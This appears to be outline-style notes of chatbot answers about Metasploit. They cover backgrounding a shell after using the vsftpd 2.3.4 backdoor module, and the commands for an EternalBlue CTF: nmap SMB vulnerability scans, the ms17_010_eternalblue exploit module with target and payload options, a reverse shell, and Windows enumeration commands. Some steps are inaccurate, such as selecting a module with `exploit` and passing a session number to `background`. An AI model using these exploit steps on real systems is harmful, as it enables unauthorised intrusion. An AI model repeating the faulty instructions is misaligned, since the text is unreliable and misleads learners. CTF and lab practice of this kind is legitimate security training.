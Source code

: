 - How to background shell in metasploit
	- To background a shell in Metasploit, you can use the `background` command. Here's a step-by-step guide on how to do it:
	  
	  1. Start by launching Metasploit. Open a terminal or command prompt and enter the following command:
	     ```
	     msfconsole
	     ```
	  
	  2. Once Metasploit loads, use the `exploit` command to select and execute an exploit module. For example, if you want to exploit a vulnerable FTP server, you can use the `exploit/unix/ftp/vsftpd_234_backdoor` module. Type the following command:
	     ```
	     use exploit/unix/ftp/vsftpd_234_backdoor
	     ```
	  
	  3. Set the required options for the exploit module. You may need to provide values for options like `RHOST` (target IP address), `RPORT` (target port), or others. Use the `show options` command to view and set the required options. For example:
	     ```
	     set RHOST <target_ip>
	     ```
	  
	  4. Once you have set the required options, run the `exploit` command to launch the exploit against the target:
	     ```
	     exploit
	     ```
	  
	  5. If the exploit is successful and you gain a shell access, you can use the `sessions` command to list active sessions. Identify the session number of the shell you want to background.
	  
	  6. Now, to background the shell and return to the Metasploit console, use the `background` command followed by the session number. For example, if the session number is 1, enter:
	     ```
	     background 1
	     ```
	  
	  7. The shell will be successfully backgrounded, and you will return to the Metasploit console, allowing you to continue using other exploits or modules.
	  
	  Remember to keep an eye on your backgrounded sessions with the `sessions` command in case you need to switch back to a specific session later.
	- How to complete the eternal blue CTF give me the commands only
		- Completing the Eternal Blue CTF (Capture the Flag) challenge requires a combination of technical skills, research, and problem-solving. Here are some steps you can follow:
		  
		  1. Understand the Basics: Familiarize yourself with the concept of the Eternal Blue exploit. Research what it is, how it works, and the vulnerabilities it targets.
		  
		  2. Study Networking and Exploitation: Gain a solid understanding of networking protocols, such as SMB (Server Message Block). Learn about common exploitation techniques and tools used to exploit vulnerabilities like Eternal Blue.
		  
		  3. Set up a Lab: Create a testing environment to practice on. Set up virtual machines with vulnerable systems like Windows XP or Windows 7.
		  
		  4. Research and Analyze: Look for information related to the Eternal Blue CTF challenge. Study any available hints, instructions, or guidelines provided by the CTF organizers. Analyze any provided tools or scripts.
		  
		  5. Exploit the Vulnerability: Use the tools and scripts you obtained in the previous step to attempt to exploit the Eternal Blue vulnerability. Follow the necessary steps carefully, ensuring you're targeting the correct systems and utilizing correct parameters.
		  
		  6. Capture the Flag: Once you successfully exploit the vulnerability and gain access to the target system, search for the flag. The flag may be in the form of a file, text, or key that you need to discover or retrieve.
		  
		  7. Document and Learn: Take notes of your steps, techniques, and any lessons learned during the process. This documentation will help you understand the exploit better and improve your skills.
		  
		  Remember, CTF challenges are designed to be challenging, so don't get discouraged if you face difficulties. Keep researching, practicing, and learning from each attempt.
		- To complete the Eternal Blue CTF, you'll need to utilize the following commands:
		  
		  1. Scan the target for open ports and services:
		      `nmap -p- <target IP>`: This command will scan all ports on the target IP to identify which services are running.
		  
		  2. Enumerate the target's SMB service:
		      `nmap -p 445 --script=smb-vuln* <target IP>`: This script will check for any known SMB vulnerabilities on port 445.
		  
		  3. Exploit the Eternal Blue vulnerability using Metasploit:
		      Launch Metasploit framework using the command: `msfconsole`
		      Search for the Eternal Blue exploit module: `search ms17-010`
		     - Select the appropriate exploit module, usually `exploit/windows/smb/ms17_010_eternalblue`
		      Set the required options, including the target IP: 
		       ```
		       set RHOSTS <target IP>
		       set RPORT 445
		       set PAYLOAD <selected payload>
		       ```
		      Exploit the target system by running the command: `exploit`
		  
		  4. Gain a reverse shell on the exploited system, specifying the appropriate payloads and options.
		  
		  5. Enumerate and escalate privileges as needed to complete the CTF objectives. Use various commands, such as:
		      `whoami`: To check the current user privileges
		      `net user`: To list available users
		      `net group administrators`: To display members of the Administrators group
		      `systeminfo`: To gather system information
		     `tasklist`: To list running processes
		     `reg query`: To query the Windows registry for valuable information
		      `cd`: To navigate through the file system
		     `copy`: To copy files to and from the target system
		  
		  Please note that the use of these commands must comply with the appropriate legal and ethical guidelines. Always obtain proper authorization before conducting any penetration testing activities.
		-